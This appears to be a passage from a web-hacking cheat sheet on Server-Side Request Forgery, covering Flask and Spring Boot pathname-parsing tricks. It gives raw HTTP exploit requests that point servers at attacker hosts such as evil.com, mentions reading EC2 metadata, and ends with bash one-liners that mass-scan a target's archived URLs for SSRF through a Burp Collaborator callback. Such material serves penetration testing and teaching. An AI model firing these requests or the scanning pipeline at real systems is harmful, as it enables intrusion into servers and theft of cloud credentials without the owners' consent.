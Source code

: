 Presented below is an example of an exploitation request:
```html
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close
```
In the following example, I was able to fetch my EC2 metadata:
![ssrf-flask](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/529505bd-4b79-4ad4-8317-546f0a72e9a4)

# SSRF on Spring Boot Through Incorrect Pathname Interpretation
Spring framework accepts the matrix parameter separator character `;` before the **first slash** of the HTTP pathname:

```html
GET ;1337/api/v1/me HTTP/1.1
Host: target.com
Connection: close
```

If a developer implements a server-side request that utilizes the complete pathname of the request to fetch an endpoint, it can lead to the emergence of **Server-Side Request Forgery (SSRF)**.

Please consider the following source code as a reference for the exploitation scenario:

![ssrf-2](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/fb40bae1-ba78-4631-b4ab-4937725ce382)

The code snippet above utilizes the `HttpServletRequest` API to retrieve the requested URL through the `getRequestURI()` function. Subsequently, it concatenates the requested URI with the destination endpoint **ifconfig.me**.

Considering that Spring permits any character following the Matrix parameter separator, becoming possible to use the `@` character to fetch an arbitrary endpoint as well.

Below is an example of the exploit request:

```html
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
![ssrf-3](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/c3486635-b964-49c8-8882-300a75e0931b)



# SSRF at a glance
[SSRF (Server-Side Request Forgery ).pdf](https://github.com/Mehdi0x90/Web_Hacking/files/12438160/SSRF.Server-Side.Request.Forgery.pdf)


# Automate SSRF
```bash
# method 1
echo https://target.com | waybackurls | httpx -silent | gf ssrf | qsreplace <burpcollaborator url> | xarg -I{} http GET {}

# method 2
echo https://target.com | waybackurls | httpx -silent | gf ssrf | qsreplace <burpcollaborator url> | httpx
```
